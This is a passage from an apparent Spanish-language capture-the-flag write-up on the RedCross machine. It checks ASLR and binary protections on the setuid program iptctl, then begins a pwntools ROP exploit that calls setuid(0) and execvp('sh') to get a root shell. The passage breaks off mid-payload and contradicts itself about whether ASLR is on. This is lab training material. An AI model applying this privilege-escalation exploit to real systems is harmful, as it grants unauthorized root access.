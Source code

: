 Ahora podemos cerciorarnos de que el **ASLR** esta desactivado aplicando un filtro y filtrando por **LIBC** en el siguiente comando ejecuta a nivel de sistema:
```
for i in $(seq 0 100); do ldd $binary | grep libc | awk 'NF{print $NF}' | tr -d '()'; done
```

Vemos que efectivamente esta activado ya que las direcciones que podemos observar no son fijas, son dinamicas.
Podemos proceder a listar los permisos del binario con **CheckSec** y vemos los siguientes permisos:
```ruby
gef➤  checksec
[+] checksec for '/home/sexcott/Desktop/Machines/RedCross/content/iptctl'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

Esta activado el **Data Execution Prevention** asi que no podemos meter de lleno instrucciones a la pila para que se ejecuten. Examinando el **script** en **C** visualizamos funciones interesantes que podemos reutilizar con **ROP**. Vamos a proceder a crear un **script** en **python3** y dumpear algunas direcciones interesantes para hacer uso de ellas con **Objdump**
```python
from pwn import *
import signal
import sys

#ctrl + c
def def_handler(sig, frame):
	print("\n\n[!] Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":

	offset = 29
	junk = b"allow" + b"A"*offset
	null = p64(0x0)

	# payload = junk + pop_rdi + null + setuid + pop_rdi + sh_addr + pop_rsi + null + null + execvp();

	# Lo obtenemos de > ropper --search "pop rdi"
	pop_rdi = p64(0x400de3)

	# Lo obtenemos de > grep "sh"
	sh_addr = p64(0x40046e)

	# Lo obtenemos de > Objdump -D iptcl | grep "execv"
	execvp = p64(0x400760)

	# Lo obtenemos de > ropper --search "pop rsi"
	pop_rsi = p64(0x400de1)

	# Lo obtenemos de > Objdump -D iptcl | grep "setuid"
	setuid = p64(0x400780)

	payload = junk
	payload += pop_rdi
	payload += null
	payload += setuid
	payload += pop_rdi
	payload += sh_addr
```